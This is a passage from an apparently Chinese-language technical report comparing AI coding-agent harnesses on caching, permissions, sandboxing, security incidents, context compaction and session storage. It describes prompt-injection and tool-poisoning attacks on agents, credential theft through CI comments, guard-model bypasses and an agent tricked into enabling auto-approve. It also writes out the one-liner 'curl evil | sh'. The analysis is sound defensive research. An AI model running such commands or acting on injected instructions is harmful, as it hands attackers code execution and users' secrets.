Reasonix 的架构围绕一条不变量展开：**对齐 DeepSeek 字节稳定的 prefix-cache，会话内只追加、不修改**。不可变前缀（system prompt、工具规格、few-shot 示例）哈希固定；会话历史 append-only；R1 推理内容放在易失暂存区，蒸馏为最终回答后才进入正式 log；上下文压缩刻意低频。效果是缓存命中率稳定在 90% 以上（TUI 实时显示，如 94.2%→95.1%），输入 token 成本降到约五分之一——项目自报的单日研究显示 435M 输入 token 的账单为 $12 而非 $61。



双模型分工是第二条主线：默认 deepseek-v4-flash 跑绝大多数 turn（单 turn 成本常低于 $0.05），当 SEARCH 未命中或修复管道被激活时自动武装 v4-pro（界面以黄行提示升级）；执行器与规划器各自维护缓存稳定的 session。工具调用修复管道设四道防线：flatten（简化 schema）、scavenge（从推理块中找回被遗忘的工具调用）、truncation（修复不完整 JSON）、storm（防重复调用风暴）——与第 5 章 OMP 的 hashline、第 8 章 grok-build 的三套编辑策略同属"编辑格式不可靠"这一行业共识的工程应答。

### 11.3 六维能力拆解

**循环（Loop）**：append-only 单循环；工具调度按安全性分组——只读工具并行、写操作串行，与 Codex 的并行工具调用纪律同构。

**上下文（Context）**：CodeGraph——基于 tree-sitter 的符号/调用图索引，刻意不走 embedding 语义检索路线（与 OpenCode 的 LSP 路线、Pi 的 AGENTS.md 前缀路线构成感知层三选一）；REASONIX.md 层级记忆加 auto-memory；低频 compaction。

**工具（Tools）**：MCP first-class（stdio/SSE/Streamable HTTP，直接兼容 `.mcp.json`）；Markdown skills（inline 执行或隔离 subagent）；hooks、自定义 slash 命令、`@file` 引用齐备。

**权限（Permission）**：allow/ask/deny 规则 + workspace sandbox（文件写限定 workspace）+ plan mode 只读审计闸。安全姿态坐标 **6.5/10**，与 OpenCode 同档。

**会话与持久化（Persistence）**：checkpoints & rewind（Esc-Esc 或 `/rewind` 快照回滚）；session replay 可完整回放会话。

**可观测性（Observability）**：九对象中唯一把"缓存命中率与累计成本"做成一等实时指标的 harness——TUI 常驻显示当前命中率与花费，session stats 可事后审计。成本可观测性即其架构主张的用户界面化。

### 11.4 长短板与定位

最长板：成本工程（缓存命中率作为一等设计约束与一等可观测指标）、单二进制零依赖分发、四道修复管道的鲁棒性设计。短板：DeepSeek 绑定红利最大（换其他模型可用，但字节稳定缓存的设计红利衰减）、生态年轻（发布仅两月余）、企业治理功能缺失。定位：证明"harness 创新的下一个战场是成本"的样本——当六维能力趋同，谁把 token 账单打下来，谁就有差异化叙事。

## 12. 六维深度横评

本章把第 3–11 章的逐对象拆解压缩成五条横切战线：安全层（12.1）、记忆层（12.2）、持久化与子代理（12.3）、多入口与协议站队（12.4）、生态与采用度（12.5）。九对象的基本面已在第 2 章建表，本章不再重复。开篇先把九章拆解浓缩为一屏速览，再逐层对读。

| 对象 | 循环（Loop） | 上下文（Context） | 工具（Tools） | 权限（Permission） | 持久化（Persistence） | 扩展（Extension） |
|---|---|---|---|---|---|---|
| mini-coding-agent | 单文件 ask 循环 | 无压缩 | read/write/bash 三工具 | 无 | 无 | 无 |
| Pi | 极简 loop | LLM 摘要压缩 | 四工具 | 零内置（外置哲学） | 树形 session | RPC/skill/subagent 全外置 |
| OMP | 同构 fork+Rust natives | 同 Pi | hashline 锚定编辑 | 同 Pi | 树形 session | 同 Pi+ACP |
| OpenCode | client/server+SSE | AGENTS.md+LSP | 工具+权限规则 | 规则+提示 | SQLite+share | 插件/MCP |
| Codex | codex-core 队列协议 | 截断+摘要 | 并行工具纪律 | 默认断网沙箱 | 云端可恢复 | App Server/MCP |
| grok-build | 三道闸+doom-loop 中止 | 85% 阈值+two-pass prefire | 25+ 工具三套编辑 | 机制全但沙箱默认 off | JSONL+FTS+云恢复 | marketplace SHA pin |
| Claude Code | queryLoop 单循环 | 五层 compaction 管道 | 内置+四扩展机制 | 七层纵深 deny-first | session+CLAUDE.md | MCP/skills/hooks/subagents |
| Cline | Plan⇄Act 双模 | 显式注入、无自动压缩 | AST+浏览器自动化 | 审批密度最高、无沙箱 | shadow git checkpoints | MCP Marketplace 150+ |
| Reasonix | append-only 缓存不变量 | CodeGraph+低频压缩 | 修复管道四道 | 规则+workspace sandbox | checkpoints+replay | MCP first-class |

permission 一列的坐标为分析性打分（0–10，高＝默认即安全、行为可预期；低＝灵活交给外部），评分规则见 12.1.1 随表说明，非度量数据。

### 12.1 安全层横评

#### 12.1.1 权限光谱：Claude Code(8.5)→Codex(8.0)→OpenCode(6.5)→Reasonix(6.5)→Cline(6.0)→grok-build(5.5)→mini(4.0)→OMP(3.0)→Pi(1.0)

下表的坐标定义为：**确定性**=安全裁决由不可绕过的机制给出（内核强制／静态规则／硬编码顺序），不依赖模型或人的当场判断；**灵活性**=裁决依赖自由裁量（人审、LLM 分类、模型自律、外部化）。10 分为完全确定性强制。

| 对象 | 坐标 | 内置权限模型（关键证据） | 默认姿态 | 冲突语义 | 裁决者 |
|---|---|---|---|---|---|
| Claude Code | **8.5** | 七层独立安全层（工具预过滤→deny-first 规则→ML 分类器→shell 沙箱） | deny-first；实测用户批准 93% 权限提示→不以人的警觉为安全前提 | 多层独立裁决全部满足才执行 | 内核+静态规则+ML 分类器+人审 |
| Codex | **8.0** | 三档沙箱 `read-only/workspace-write/danger-full-access` × 四档审批 + execpolicy Starlark 前缀规则 | `workspace-write`+`OnRequest`；**沙箱默认开、默认断网** | argv 前缀规则+固定管线（execpolicy→safety→approval→escalate） | 内核+静态规则为主，人/模型为辅 |
| OpenCode | **6.5** | `allow/ask/deny` 规则引擎、12 个权限键、通配符匹配 | 多数 `allow`；`external_directory`/`doom_loop` 默认 `ask`；`*.env` 默认 `deny` | **最后匹配获胜**（`findLast`），兜底 `ask` | 规则引擎+人审+插件裁决 |
| Reasonix | **6.5** | allow/ask/deny 规则+workspace sandbox（写限 workspace）+plan mode 只读审计闸 | 写操作过闸 | sandbox+闸 | 规则引擎+人审 |
| Cline | **6.0** | 细粒度 auto-approve 分类（read/write/execute/browser/MCP）+危险命令硬闸（rm -rf 等永远需批准） | 逐步人审（审批密度最高）；YOLO 为 opt-in 且官方警告 | 无执行隔离 | 人审为主 |
| grok-build | **5.5** | 六档 PermissionMode（Claude 兼容）+ allow/deny/ask 规则 + Auto 模式 LLM 分类器 + 企业 pin | `Default` 档；**沙箱默认 off** | Claude 兼容规则语义+分类器三态 | 规则+**LLM 分类器（概率性）**+人审 |
| mini | **4.0** | 三态审批 `ask/auto/never`，仅 3 个 risky 工具过闸 + inode 级路径边界 | `ask`（非交互默认拒） | 无规则表，硬编码顺序（校验→防重→审批） | 人审+硬编码路径检查 |
| OMP | **3.0** | 三级申报 `read/write/exec` + 用户策略 + 逐工具覆盖 + 安全 override | **`yolo` 全自动**，审批为 opt-in | 固定解析顺序（工具决策→用户策略→override→模式默认） | 模型自律为主，人审/ACP 客户端可选 |
| Pi | **1.0** | **零内置权限**；审批弹窗被作者视为 security theater | 以启动用户权限全量运行 | 无（`tool_call` 事件可 block，fail-safe 拦截） | 完全外部化（扩展/容器/VM） |

打分基于第 3–11 章逐一给出的源码坐标（OpenCode `src/permission/index.ts:28-38` 的 `findLast`、grok-build `config.rs:956` 的六档枚举、mini `approve()` L602-613 与 `path()` L722-740 的 `samefile()` inode 比较等），光谱本身是分析工具而非测量结果。Codex 锚定确定性端的理由不是机制数量而是裁决顺序：第一道闸是内核（macOS Seatbelt／Linux bubblewrap+seccomp／Windows 受限令牌），第二道是静态规则（execpolicy，且 `match/not_match` 在加载期强制自测，是九家唯一内建"规则自检"的），第三道才是人/模型，escalate 路径显式化；其残余灵活性出口有二——`OnRequest` 把"何时求人"交给模型判断，`--dangerously-bypass-approvals-and-sandbox` 一键拆光全部防线。OpenCode 的求值本身确定，但两点压低坐标：`findLast` 使语义顺序敏感（见 9.1.2），以及官方 SECURITY.md 自认权限系统 "exists as a UX feature…not designed to provide security isolation"——失去内核背书的规则层管得住工具管不住进程，`edit` deny 可被 `bash` 绕过（issue #21733，官方承认，仍 open）。grok-build 机制数量九家第一却居中，因为两道不确定性都是结构性的：Auto 模式把裁决交给概率性 LLM 分类器（外部实证表明 guard 模型可被注入绕过，见 9.1.3），OS 沙箱存在但默认关闭。mini 的 4.0 来自"硬编码路径检查+人审"的教学三件套；OMP 与 Pi 同处灵活端但姿态相反——OMP 作为 Pi 的 fork 刻意反转上游哲学，把默认信任（yolo）做成产品决策，同时保留 ACP 审批路由"拒绝不静默放行"的确定性挂点；Pi 则是光谱上唯一哲学自洽的极端：harness 不作任何安全承诺，也就不提供可被误认为边界的假象。这条光谱排序的真正含义是：**它排的是默认姿态而非工程能力**——grok-build 证明"内置但默认关"在事故中与"没有"等价（9.1.3），与 OpenCode 自认 UX 层、Claude Code 沙箱空数组 bug（CVE-2025-66479）共同构成"有机制≠有保护"的三个样本。

#### 12.1.2 执行隔离 8 机制×6 对象对照与规则冲突语义三范式

| 机制 | mini | Pi | OMP | OpenCode | Codex | grok-build |
|---|---|---|---|---|---|---|
| macOS Seatbelt（`sandbox-exec`） | ❌ | ❌ | ❌ | ❌ | ✅ 默认开 | ✅ 有（nono），默认关 |
| Linux Landlock | ❌ | ❌ | ❌ | ❌ | 遗留路径 | ✅（nono），默认关 |
| Linux bubblewrap（mount ns） | ❌ | ❌ | ❌ | ❌ | ✅ 默认开 | ❌ |
| seccomp-BPF（syscall/断网过滤） | ❌ | ❌ | ❌ | ❌ | ✅ 默认开 | ✅ 仅 Linux 子进程断网 |
| Windows 受限令牌+ACL | ❌ | ❌ | ❌ | ❌ | ✅ 实验性 | ❌ |
| 网络隔离（默认断网/白名单代理） | ❌ | 外置（Gondolin egress 策略） | ❌ | ❌（server 仅 Basic Auth） | ✅ 默认断网+MITM 域名白名单 | 沙箱开启时 seccomp 断网 |
| 容器/microVM 官方方案 | 作者建议独立机器/VM/账号 | ✅ Gondolin microVM 一等扩展 | 用户自理 | 官方建议 Docker/VM（SECURITY.md） | cloud 任务托管容器 | 云沙箱 API（隔离形态未公开） |
| git worktree（软隔离） | ❌ | ❌ | ✅ pi-iso PAL 七后端兜底链 | ✅ 代码中 "sandbox" 即 worktree | ❌ | ✅ `xai-fast-worktree`（子代理默认 None） |

只有两家把 OS 级沙箱做进 harness 本体：Codex（三平台内核原语、默认开）与 grok-build（基于 nono crate 的 Landlock/Seatbelt+seccomp 断网、默认关）。OpenCode 核心包对 `seatbelt|seccomp|bubblewrap|sandbox-exec` 的 grep 零命中，其代码中的 "sandbox" 实为 git worktree 并行工作区；Pi 哲学性拒绝进程内半成品沙箱（"易被误认为安全边界"），把隔离整体外置为 Gondolin microVM（HTTP/TLS egress 策略、密钥占位注入、可编程 VFS、快照）；OMP 在官方对比页诚实承认威胁模型差异（"Codex sandboxes at the OS…omp gates at the tool boundary"），以工具边界审批+pi-iso worktree+eval 桥 env 剥离（子进程环境默认剥掉常见 API key）补位；mini 止于人审+路径边界，作者本人建议生产使用应在独立机器/VM/账号运行。默认姿态进一步压缩真实差距：开箱即有真隔离的只有 Codex，其余八家都需要用户自行工程（grok-build 加 `--sandbox workspace`、OpenCode 套 Docker 或第三方 wrapper、Pi 搭 Gondolin、OMP 容器化并收紧 approvalMode、mini 换机器）。worktree 一行需要特别辨析：它防的是并行子代理文件互踩（协作隔离），对"模型被注入后执行 `curl evil | sh`"毫无防御力——OpenCode 把 worktree 命名为 "sandbox" 在术语上助长了范畴错误，尽管其 SECURITY.md 语义诚实。隔离层级上 2026 年的共识金字塔是 microVM > 容器 > OS 沙箱 > 权限提示（Northflank 明言单靠共享内核的容器隔离不可信代码"不够"），而内置派与外置派正在合流：Codex 出 `external-sandbox` 策略把强制权交给外层容器，Pi 生态把 Gondolin 做成一等扩展。

权限规则的冲突语义则呈三范式并存，且各有已实证的配置陷阱。**deny 优先**（Claude Code 系，grok-build 兼容其规则语法）对心智最友好（"黑名单永远赢"），但全部风险转移到 deny 规则的实现完备性：symlink 绕过（CVE-2025-59829）、bubblewrap 下通配符 deny-read 失效（官方文档示例 `Read(./.env)` 即此形态，2.1.40 修复）、`allowedDomains: []` 空数组语义从"断网"反转为"全网放行"（CVE-2025-66479）——语义确定≠实现正确。**最后匹配获胜**（OpenCode，`src/permission/index.ts:28-38` 源码铁证）求值 O(n) 可预测，但顺序敏感：配置合并多达 10 层（远程组织→全局→项目→.opencode→内联→Console→系统托管→MDM→`OPENCODE_PERMISSION` 环境变量，后者覆盖前者），CI 环境里一个环境变量即可静默翻案项目声明的全部 deny；"always/reject" 的级联放行/拒绝其余 pending，在注入场景下放大单次错误裁决的爆炸半径。**argv 前缀规则**（Codex execpolicy）对审计最友好——每条规则自带正反例、写错在加载期爆炸而非执行时放行；灰色地带是参数顺序敏感（`git -C /x status` 与 `git status` 不共享前缀）与串联命令拆解依赖 shlex 保真，而后者正是 Claude Code 三个解析器 CVE（CVE-2025-54795/58764/66032：$IFS、短 flag、引号边界）翻车的同一雷区，Codex 的缓解是双闸——execpolicy 判错还有内核沙箱兜底。无规则表的固定顺序方案（OMP 工具决策→用户策略→override→模式默认；mini 校验→防重→审批）消除了表内冲突，却各有"层级意外"：OMP 最严的安全 override 在 yolo 下输给最宽的模式默认；mini 的顺序设计反而是教科书式减负（注定失败的调用不消耗用户注意力）。把三案并读可得一个可复用的乘法公式：规则系统的实际安全性 $S = 语义确定性 \times 实现正确性 \times 默认姿态$，任一因子为零则整体为零——Claude Code 三案恰好各占一个因子。

#### 12.1.3 安全事件总表：17 起事件与"工具链即攻击面"证据链

| # | 时间 | 对象 | 事件（要点） | 攻击面类别 |
|---|---|---|---|---|
| 1 | 2025-03 | Cursor/Copilot 生态 | Rules File Backdoor：规则文件藏零宽/Bidi 不可见指令，经模板/PR 分发 | 指令文件供应链 |
| 2 | 2025-03/04 | MCP 生态 | Tool Poisoning：工具描述嵌指令；批准后改定义（rug pull） | 工具元数据注入 |
| 3 | 2025-08 | Claude Code | CVE-2025-54795：命令解析错误绕过确认提示 | 命令解析器 |
| 4 | 2025-09 | Claude Code | CVE-2025-58764：同型解析绕过（NVIDIA Red Team 报告） | 命令解析器 |
| 5 | 2025-09 | Claude Code | CVE-2025-59041：`git config user.email` 未消毒，trust 对话框前 RCE | 启动信任边界 |
| 6 | 2025-08 | Codex | CVE-2025-61260：项目 `.env` 设 `CODEX_HOME`+项目 `config.toml` 的 `mcp_servers`，克隆即任意命令执行（0.23.0 修复） | 配置装载/供应链 |
| 7 | 2025-08 | Copilot | CVE-2025-53773：注入诱使 agent 写 `autoApprove:true` 到自身配置 | 配置自改写 |
| 8 | 2025-07 | Gemini CLI | 白名单工具投毒：恶意工具自称 `ls` 内嵌 reverse shell | 工具元数据注入 |
| 9 | 2025-10 | Claude Code | CVE-2025-59536/2026-21852：trust 确认前执行项目代码并发出站请求 | 启动信任边界 |
| 10 | 2025-09/11 | Claude Code | CVE-2025-59828/65099：Yarn Berry 插件在 trust 评估完成前自动执行 | 启动信任边界 |
| 11 | 2025-10 | Claude Code | CVE-2025-59829：deny 未计符号链接，symlink 绕过 | 权限规则实现 |
| 12 | 2025-12 | Claude Code | CVE-2025-66032：`$IFS`/短 flag 解析差异绕过只读校验 | 命令解析器 |
| 13 | 2025-12 | Gemini CLI Action | PromptPwnd：恶意 issue 正文注入，窃取 `GEMINI_API_KEY`/`GITHUB_TOKEN` | CI/CD 提示注入 |
| 14 | 2025-12 | Claude Code（sandbox-runtime） | CVE-2025-66479：`allowedDomains:[]` 空数组反转为全网放行；本体未获 CVE、静默修复 | 沙箱配置语义 |
| 15 | 2026-04 | Claude/Gemini/Copilot Actions | Comment and Control：PR 标题/评论注入跨三家窃 key，GitHub 即 C2 | CI/CD 提示注入 |
| 16 | 2026-06 | Pi | CVE-2026-54327/54328：auth.json 凭据文件 umask 竞态；`-e` 临时包可预测 tmp 路径（0.78.1 修复） | 凭据存储/扩展装载 |
| 17 | 2026-07 | grok-build | 全仓库上传事件：整个 git 仓库+历史打成 bundle 经 `/v1/storage` 传 GCS；客户端 UI 开关不在开关链路里 | 遥测/数据出口 |

17 起事件按攻击面归类后呈现明显聚集。启动信任边界（#5/9/10，连同 Codex #6 同理）是 2025 年最高产的漏洞模式——"先装载后问信任"使 git config、Yarn 插件、MCP 配置全部在 trust 对话框前执行，其对策已收敛为"trust 先于装载"（Pi 的 project trust 与 grok-build 的 folder_trust 把配置/扩展/钩子的装载本身设为需授权行为，但 Pi 刻意豁免 AGENTS.md/CLAUDE.md，把指令文件注入面官方保留）。命令解析器（#3/4/12）三起 CVE 同型同构：harness 的解析器与真实 shell 的解析器不一致，凡"用字符串分析判断命令是否危险"的设计，解析差异即漏洞——Codex 的架构答案正是把解析降级为"决定问不问"、把内核设为"决定能不能"。Claude Code 以 8 起独立事件（另涉 #15 跨厂商事件）成为事件最多的背景参照，其 CVE 群标示了"权限提示+解析器判断+后补沙箱"路线的极限，也解释了 Anthropic 2025-11 起转向 OS 级沙箱——**从"人审+解析"向"内核强制"迁移是这条证据链的行业主线**，Codex 从第一天就在终点，grok-build 到了终点但没开门。九对象之内，#17 是单一最重要事件：代码与抓包逐字吻合（`upload_config.rs:120` 的 `repo_changes_dedup/v2` 前缀、`.env` 仅作为目录名进跳过清单故文件明文上传），开关链路为 env > requirements pin > config > 远程 flag > 默认开而客户端 UI 不在链路里，止血靠服务端 flag 而不下发新二进制——它同时击穿权限（沙箱默认关）、隔离（无约束）与数据出口（遥测即攻击面）三条线，并证明"开源的代码≠运行的行为"（服务端 flag 可不下发更新即改变客户端行为）。事件链之外，学术实证补完了"工具链即攻击面"的最后一环：双通道注入（工具描述+返回值）对 6 款主流 coding agent 全部取得 RCE、guard 模型"建议不约束"被实证可绕（arXiv 2509.05755，对 grok-build Auto 模式这类"LLM 当门卫"设计构成直接警示）；QueryIPI 查询无关注入成功率 87%；审批疲劳获学术确认（click-fatigue 使用户批量批准恶意命令）；31,132 个技能样本中 26.1% 含至少一个安全漏洞。2025 年的研究重心是"证明能注入"，2026 年已转向"证明防御无效"——两条线索共同指向同一架构结论：确定性防御必须位于模型之外（内核沙箱、网络隔离、凭证隔离），位于模型之内的一切（系统提示、guard 模型、LLM 分类器、人审 UI）均已被实证可绕或可磨穿。

### 12.2 记忆层横评

#### 12.2.1 压缩策略：六代递进表

| 代 | 对象 | 触发阈值/时机 | 压缩算法 | 关键事实保留 | 破坏性 |
|---|---|---|---|---|---|
| 1 | mini | 无阈值——每轮全量重建 prompt，一切文本过字符闸（单输出 4,000/历史 12,000 字符） | 确定性字符截断（无 tokenizer、无 LLM 摘要） | 工作记忆结构 `memory={task, files≤8, notes≤5}` + 旧 read 按 path 去重 | **高**——截断即丢失，无恢复路径 |
| 2 | Pi | `contextTokens > 窗口 − reserve(16,384)`；overflow 恢复仅允许 1 次 compact+retry | 单级 LLM 摘要：合法切点枚举、**绝不切 toolResult**；split-turn 双摘要 | 文件操作追踪 `CompactionDetails` 跨次累积 + 尾部 20,000 token 原样保留 + 摘要链锚定 | **中**——一次有损但尾部原样，切点纪律保证 tool pair 不拆散 |
| 3 | OpenCode | `total ≥ input − min(20,000, maxOutputTokens)` | 两级：prune（保护最近 40k/起剪 20k，**默认关**）+ anchored summary（六段模板、摘要上限 4,096 token） | 摘要链锚定（"preserve still-true, remove stale, merge new"）+ 模板强制保留精确路径/错误串 | **中低**——prune 非破坏（存储保留本体），失败不丢会话（#36163） |
| 4 | grok-build | **85% 窗口阈值** + agent loop 三道闸（采样前/采样失败/工具后） | memory flush 前置 + two-pass prefire（默认关，后台推测性预总结）+ 300s 墙钟摘要预算 | memory flush 显式外置落盘 + `<system-reminder>` 状态格式化 | **中**——full-replace 风格激进，但 flush 先兜底、延迟成本移出关键路径 |
| 5 | Codex | 按模型自动计算（`model_auto_compact_token_limit`） | 三路径：本地摘要 / 远端 `/responses/compact` **加密 item** / token 预算窗口 | 模型潜在表示即保留机制（不透明 `encrypted_content`，配合 ZDR 全量重放） | **中**——远端路径对模型无损但对**人类不可审计**，provider 锁定 |
| 6 | OMP | 六条触发路径（`窗口 − max(15%, reserve)` + mid-turn/idle 等） | **snapcompact 位图压缩**：弃 LLM 摘要，被弃历史打印成 PNG 帧按视觉计费（1,568² 帧≈4 万字符≈3,279 image tokens）；前置 prune（40k/20k/`MIN_PRUNE_TOKENS=50`）+ useless 旗标置空 | TTSR 注入存活 + 位图"零摘要损耗" + read 摘要化页脚给出可重读区间 | **两极**——设计上最低破坏（原文不丢、确定性、免 LLM 费），但故障面外移（#3387：端点不支持视觉→会话永久 400） |

递进曲线上的三个跃迁点值得单独命名。其一，**从字符到 token**（mini→Pi）：mini 按字符计费、对真实模型窗口无知，胜在零成本可复现；自 Pi 起全部按 token 估算，触发判定与模型上下文窗口直接挂钩。其二，**从单级摘要到多级防御**（OpenCode/grok-build/OMP）：prune-then-summarize 体现同一思想——先免费剪枝、后付费摘要；grok-build 增加时间维度，two-pass prefire 把压缩延迟从关键路径剥离。其三，**从文本摘要到非文本表示**（Codex/OMP）：加密 item 把压缩物变成模型私有、人类不透明的潜在表示（信任服务端），位图帧把压缩物变成人类可打印、模型视觉读的像素（信任像素）——两者都绕开"摘要必然有损"的文本信息瓶颈，代价分别是不可审计与端点能力门控。须强调这条六代曲线不是价值排序：9.2.3 的外部证据将表明其收益是凹的，mini→Pi 的跃迁价值最大，表示层创新是否划算取决于威胁模型。

#### 12.2.2 关键事实保留五机制与 token 经济学

压缩必然有损，九家对"压完不丢什么"给出五种思路（第六种是 Codex 的加密 item，把"保什么"交给服务端模型自己，引入不可审计与 provider 锁定）。**文件操作追踪**（Pi 首创：`CompactionDetails{readFiles, modifiedFiles}` 跨次累积合并、从工具 details 确定性抽取、不经 LLM 故不随摘要质量漂移；OpenCode/OMP 继承）解决"摘要模型忘记哪个文件被改过"这一 coding agent 最关键的状态丢失——Anthropic 官博记载 Claude Code 压缩后带"最近访问的 5 个文件"续跑，文件追踪已成行业标配。**摘要链锚定**（Pi/OpenCode：以 `<previous-summary>` 增量更新而非全量重述）既省重复摘要成本又防摘要漂移，代价是错误沿链遗传——本质是"摘要版本的 append-only"。**摘要模板**（OpenCode 六段式最完整：Objective/Important Details/Work State/Next Move/Relevant Files）把"什么是关键事实"显式编码为 schema，代价是模板外信息被系统性丢弃，且摘要输出本身要花钱（上限 4,096 token）。**位图**（OMP snapcompact）不决定"什么是关键"——原文全在，只是换成按视觉 token 计价（宣称约 1/3 输入价为作者自评，无第三方复核）。**注入存活**（OMP TTSR）正交于压缩：规则以会话条目持久化、恢复时重建到管理器，解决的是"压缩后 agent 忘记 AGENTS.md 规则开始 freelancing"的规则层遗忘——Claude Code 生态要靠外挂 post_compact_reminder hook 解决的痛点，OMP 做成了会话状态机的一部分。

token 经济学为上述选择定价。不干预时长会话成本随轮次二次方增长 $C \propto n^2$（每轮既加 token 又重处理全部历史）：250 个真实会话采样显示上下文 50,000 token 时 cache read 占 API 成本 **87%**，一半成本拐点约 **27,500 token**——这解释了 Codex 无状态全量重放（支持 ZDR）为何依赖 prompt cache 才能成立（`thread_id` 作 `prompt_cache_key`、prompt 必须 append-only），也解释了各家为何把前缀稳定当作一等约束。压缩把增长压回线性，但每次压缩支付三笔费用：摘要生成费（占总能耗 >7%）、缓存失效重建费（cache 命中要求字节级前缀一致，每次 compaction 都烧掉会话段缓存——这是"不要每几轮就 compact"的经济学理由）、信息损失费。合起来得到经济学最优策略"少压、晚压、压前 mask"。而整套机制的地基是 **token 会计正确性**：OpenCode #4416（`input + cache.read + output` 双重计数）导致缓存越大越早误触发压缩，CLIProxyAPI #2281（代理转换低报 prompt_tokens）导致压缩永不触发、撑爆窗口——一个 usage 口径 bug 即可使压缩逻辑双向失效；经代理/网关时 usage 语义漂移是跨层系统性风险。

#### 12.2.3 外部证据：衰减早于溢出、多轮即损耗、收益凹曲线

三组独立研究给出反直觉校准。第一，**质量衰减远早于窗口耗尽**：Chroma Context Rot 对 18 个前沿模型的测量显示全部随输入变长性能下降、非均匀且为长度驱动（200K 窗口模型在 50K 即可显著衰减）；临界阈值研究进一步把灾难性崩塌的拐点定位在最大上下文的 40–50%——这意味着 grok-build 的 85% 阈值防的是 crash 不是 quality。第二，**多轮结构本身就是损耗源**：Microsoft/Salesforce 对 15 个模型、20 万+ 模拟会话的实验显示多轮平均性能降 **39%**（90%→65%），分解为少量 aptitude 损失+不稳定性翻倍（+112%），而同内容单轮拼接的对照保住 95.1%——衰减来自轮次边界而非上下文长度，加长窗口不能修复。第三，**更复杂的压缩不必然更好**：JetBrains 在 500 个 SWE-bench 实例×5 配置上实证，observation masking（遮蔽旧工具输出）在 4/5 配置上追平或超过 LLM 摘要，两种管理都省 >50% 成本，而摘要还使 agent 多跑 13–15% 时间（遮蔽了停止信号）、摘要生成占 >7% 总成本。映射回九家：OpenCode 的 prune-first 与 OMP 的 useless-blank+prune 属 masking 路线（实证占优，但 OpenCode 把 prune 默认关反而值得商榷），Pi/grok-build/Codex 本地路径是纯摘要路线。综合三组证据，六代递进表的收益曲线是**凹的**：字符→token、截断→摘要+文件追踪的跃迁价值最大；其后的增量（锚定链、多闸触发、two-pass）解决的是真实失效模式（级联失败、压缩卡顿、摘要漂移）而非精度提升；表示层创新（加密 item/位图）则把摘要损耗换成透明度或兼容性风险。harness 的下一个前沿不是更晚压缩，而是让压缩时机与任务结构对齐——agent 在任务边界自主压缩已报告 22.7% token 削减且无精度损失，LOCA-bench 亦证明 context engineering 工具包可缓解甚至提升长程任务成功率，为 harness 级上下文管理正名。

### 12.3 持久化与子代理横评

#### 12.3.1 session 存储：五代范式与能力矩阵

六种存储格式可归为五代范式：①教学级单文件快照（mini：每追加一个事件整体重写 JSON，崩溃不丢已发生事件但工程上低效）→ ②append-only 线性事件日志（grok-build JSONL v1、Codex rollout JSONL）→ ③**树形**事件日志（Pi/OMP：`id/parentId` 构成树，分支为一等公民）→ ④关系型+JSON 列（OpenCode SQLite，v1.2.0 自 JSON 文件迁入）→ ⑤事件溯源（OpenCode sync 层在存储之上再抽象出 replayable event stream）。JSONL 系（②③）与 SQLite/ES 系（④⑤）的分水岭不是容量而是"是否要多客户端并发读/水合/同步"：OpenCode 因 client/server 多表面最先越界，Codex 虽多表面但以"单写者 rollout+thread-store 索引"留在 JSONL 阵营。格式迁移是真实工程风险点：OpenCode 的一次性大迁移换来查询能力但出过会话"消失"事故（issue #13636/#13654，增量升级跳过 JSON→SQLite 导入）；Pi/OMP 选择"读时升级、写时固化"，代价是迁移代码永久背负（Pi 至今保留 v1→v3 全链）；Codex 走第三条路——无显式版本号、靠 serde 枚举兼容性演进，适合其"item 即 API 对象直存、resume 即原样重放"的 rollout 哲学。

| 能力 | mini | Pi | OMP | OpenCode | Codex | grok-build |
|---|---|---|---|---|---|---|
| resume | ✅ `--resume latest/<id>` | ✅ `/resume`、启动恢复 | ✅ `-c`/`-r`+终端面包屑 | ✅ 会话持久+server 重连 | ✅ `codex resume`、SDK `thread_resume` | ✅ `/resume`、headless `-s/-r/-c` |
| 分支（同文件新叶） | ❌ | ✅ `/tree` 导航+branch_summary | ✅ `/branch` | ✅ 消息级 revert/unrevert | ✅ `thread/fork` | ✅ `/fork` |
| fork（抽支成新文件） | ❌ | ✅ `createBranchedSession`+`parentSession` 互链 | ✅ `/fork`+lineage | ✅ `POST /session/:id/fork` 按 messageID | ✅ 任意点分叉（App Server 三原语之一） | ✅ `session/fork.rs` |
| 文件状态 checkpoint/回滚 | ❌ | ❌（扩展可加 git checkpointing） | ✅ `checkpoint`/`rewind` 内置工具 | ✅ snapshot git-dir→`/undo` `/redo` | ⚠️ WorldState diff 实验性 | ✅ `/rewind`（RewindPoint） |
| 压缩检查点入档 | ❌ | ✅ `compaction` entry | ✅ `CompactionEntry`（含 preserveData） | ✅ compaction part | ✅ `Compacted` 条目 | ✅ 压缩为会话内事件 |
| share | ❌ | ✅ `/share` 上传私有 gist+HTML 链接 | ✅ `/collab` E2E 加密（AES-256-GCM，无第三方审计） | ✅ `opncd.ai/s/<id>`（企业可自托管、可硬禁） | ❌ 本地 rollout 无 share | ✅ `/share` 生成 URL |
